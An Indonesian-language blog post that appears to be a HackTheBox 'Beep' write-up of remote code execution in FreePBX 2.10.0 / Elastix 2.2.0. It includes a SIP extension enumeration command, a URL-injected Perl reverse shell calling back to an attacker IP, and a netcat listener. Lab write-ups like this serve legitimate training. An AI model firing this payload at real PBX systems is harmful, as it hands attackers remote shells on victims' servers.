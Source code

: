 ```yaml
---
featured_image: "/uploads/justakazh/2023-01-02_11-58.png"
author_description: Aku nulis karena aku pelupa
author_avatar: "/uploads/justakazh/1656477958868.jpeg"
author_facebook: https://facebook.com
author_twitter: https://twitter.com
author_instagram: https://instagram.com
author_donation: paypal / saweria / buymecoffe / etc
author_web: https://blog.hackstreet.id
title: 'FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution '
date: 2023-01-02T00:00:00.000+07:00
author: Justakazh
tags:
- pentesting
- rce
- exploit
categories: Penetration Testing

---
```

## Introduction

pada kesempatan kali ini saya akan membahas mengenai Vulnerability pada Elastix versi 2.2.0, tulisan ini merupakan lanjutan dari Writeup HackTheBox pada mesin Beep. goal pada tulisan ini adalah kita dapat mengetahui bagaimana cara untuk melakukan exploitasi pada kerentanan tersebut.

> **Sekilas tentang FreePBX dan** **Elastix**
>
> **FreePBX** adalah Asterisk (perangkat lunak telepon) berbasis web interface dan alat lainnya. instalasi yang pada FreePBX menggunakan IP Public.
>
> menurut wikipedia **Elastix** adalah perangkat lunak server komunikasi terpadu yang menyatukan fungsi IP PBX, email, IM, faks, dan kolaborasi. Ini memiliki antarmuka Web dan mencakup kemampuan seperti perangkat lunak pusat panggilan dengan panggilan prediktif. singkatnya Elastix merupakan software yang digunakan untuk VoIP.

## Mencari Extension Line

untuk melakukan exploitasi pada kerentanan ini, kita harus mengetahui terlebih dahulu nomor extension line yang terdapat pada PABX/PBX. disini saya akan menggunakan `svwar` [https://www.kali.org/tools/sipvicious/](https://www.kali.org/tools/sipvicious/ "https://www.kali.org/tools/sipvicious/") untuk mendapatkan nomor extension line tersebut dengan mengetikan perintah 

    svwar -m INVITE -e0-500 10.10.10.7 2>/dev/null | grep "reqauth"

![](/uploads/justakazh/2023-01-02_14-30.png)

dapat dilihat pada gambar diatas ditunjukan bahwa kita  menemukan nomor extension line tersebut, selanjutnya mari kita melakukan Remote Code Execution.

## Remote Code Execution

dari exploit yang saya temukan pada exploit-db [https://www.exploit-db.com/exploits/18650](https://www.exploit-db.com/exploits/18650 "https://www.exploit-db.com/exploits/18650") menunjukan bahwa payload yang digunakan untuk melakukan reverse shell seperti berikut

    https://beep.htb/recordings/misc/callme_page.php?action=c&callmenum=[NUMBER EXTENSION LINE]@from-internal/n
    Application: system
    Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[LHOST]:[LPORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
    
    ## URL ENCODE
    https://beep.htb/recordings/misc/callme_page.php?action=c&callmenum=[NUMBER EXTENSION LINE]@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22[IP]%3a[PORT]%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

sebelum kita menjalankan payload tersebut kita dapat membuat sebuah listener dengan menggunakan netcat

    nc -lnvp [PORT]

setelah membuat listener selanjutnya kita dapat mengakses payload tersebut melalui URL pada browser untuk mentrigger payload yang digunakan.

    https://beep.htb/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.2%3a4242%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

![](/uploads/justakazh/2023-01-02_14-43.png)

![](/uploads/justakazh/2023-01-02_14-44.png)

dapat dilihat pada gambar diatas tersebut payload tersebut berhasil tereksekusi dengan baik dan kita berhasil mendapatkan akses tersebut.